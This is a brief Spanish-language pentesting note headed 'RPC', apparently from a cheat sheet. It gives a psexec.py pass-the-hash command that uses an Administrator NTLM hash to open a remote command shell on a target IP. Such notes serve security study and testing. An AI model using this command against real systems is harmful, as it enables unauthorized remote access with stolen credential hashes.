# RPC

- Comando -> **psexec.py WORKGROUP/Administrator@< IP> -hashes <'HASH'>** Podremos ganar acceso al sistema y nos lanzara una cmd ya que estariamos haciendo un Pass de Hash 